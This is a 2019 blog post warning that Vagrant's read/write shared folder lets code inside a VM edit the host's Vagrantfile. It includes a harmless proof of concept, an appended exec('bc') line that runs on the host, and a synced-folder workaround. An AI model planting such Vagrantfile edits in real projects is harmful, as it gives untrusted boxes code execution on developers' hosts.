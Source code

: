 ```yaml
---
layout: post
title: Malicious vagrant boxes
---
```


{{ page.title }}
================

<p class="meta">8 June 2019 - Mojave Desert</p>
Did you know by default vagrant run's VMs in the same security context as your host operating system?

So if you tested a strange and unknown vagrant box off https://app.vagrantup.com/boxes/search, you're unfortunately not limiting the blast radius to the VM as your host could now be compromised as well.

To be clear I'm not aware of any cases where this has happened, just that it's possible and something worth watching out for.

The issue is pretty straight forward, vagrant mounts the code directory inside the VM as read/write. Normally the VM would be running your code so this wouldn't be much of a concern however this directory also contains the Vagrantfile configuration, which of course is just a ruby script and is executed every time you run `vagrant` on the host.

So here's a quick example getting execution on the host from simply editing this file within the VM.

```
host$ vagrant init
A `Vagrantfile` has been placed in this directory. You are now
ready to `vagrant up` your first virtual environment! Please read
the comments in the Vagrantfile as well as documentation on
`vagrantup.com` for more information on using Vagrant.
host$ sed -i -e '/config.vm.box =/s@.*@config.vm.box = "ubuntu/eoan64"@' Vagrantfile   # Set config.vm.box to ubuntu/eoan64
host$ vagrant up
Bringing machine 'default' up with 'virtualbox' provider...
==> default: Checking if box 'ubuntu/eoan64' version '20190605.0.0' is up to date...
==> default: Machine already provisioned. Run `vagrant provision` or use the `--provision`
==> default: flag to force provisioning. Provisioners marked to run always will still run.
host$ vagrant ssh

**snip**

vagrant@ubuntu-eoan:~$ echo 'exec("bc")' >> /vagrant/Vagrantfile
vagrant@ubuntu-eoan:~$ logout
Connection to 127.0.0.1 closed.
host$ vagrant halt
bc 1.06
Copyright 1991-1994, 1997, 1998, 2000 Free Software Foundation, Inc.
This is free software with ABSOLUTELY NO WARRANTY.
For details type `warranty'. 
1+1
2
```

I've been meaning to make a post about this for some time, when I originally noticed this it was very difficult to find *any* mention of this which is a bit unfortunate. For a while I've been using the following workaround, which I admit isn't ideal.. but still works.

```
  config.vm.synced_folder ".", "/vagrant", disabled: true
  config.vm.synced_folder "vagrant", "/vagrant"
```
This will move the shared folder to a sub-folder named vagrant under the main directory, which includes the Vagrantfile config.


For another issue with vagrant shares make sure to check out [not-a-vagrant-bug](https://phoenhex.re/2018-03-25/not-a-vagrant-bug) as well.
